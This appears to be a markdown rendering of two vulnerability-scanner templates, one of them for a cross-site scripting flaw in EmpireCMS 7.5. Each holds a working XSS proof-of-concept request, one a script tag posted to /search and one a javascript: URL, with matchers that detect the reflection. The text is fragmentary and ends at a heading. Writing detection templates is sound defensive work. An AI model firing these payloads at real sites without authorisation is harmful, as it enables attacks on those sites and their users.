 ## Requests

### Step - 1

```
POST /search HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

phps_query=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

```

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# EmpireCMS 7.5 - Cross-Site Scripting

## Description

- EmpireCMS 7.5 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - empirecms,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/e/ViewImg/index.html?url=javascript:alert(document.domain)

### Matchers
